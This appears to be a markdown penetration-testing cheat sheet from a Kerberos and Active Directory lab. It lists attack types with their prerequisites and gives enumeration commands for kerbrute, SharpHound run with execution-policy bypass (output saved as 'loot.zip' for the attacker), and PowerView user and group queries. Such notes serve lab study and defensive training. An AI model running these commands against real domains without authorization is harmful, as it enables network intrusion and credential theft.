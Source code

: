 - Kerbrute Enumeration - No domain access required 
- Pass the Ticket - Access as a user to the domain required
- Kerberoasting - Access as any user required
- AS-REP Roasting - Access as any user required
- Golden Ticket - Full domain compromise (domain admin) required 
- Silver Ticket - Service hash required 
- Skeleton Key - Full domain compromise (domain admin) required



### Enumeration

#### Kerbrute

Add victim IP to /etc/hosts as CONTROLLER.local (DNS_Domain_Name in nmap)

On attacker machine,

```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local <User.txt>
```



#### BloodHound

GUI similar to PowerView

```bash
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

transfer zip to attacker machine

#### PowerView

- Server Manager

  Use windows built in Server Manager

  enumerate domain after gained shell

  ```shell
  powershell -ep bypass
  ```

  ```powershell
  . .\PowerView.ps1
  ```

  - Enumerate domain users

    ```powershell
    Get-NetUser | select cn
    ```

  - Enumerate domain groups

    ```powershell
    Get-NetGroup -GroupName *admin*
    ```

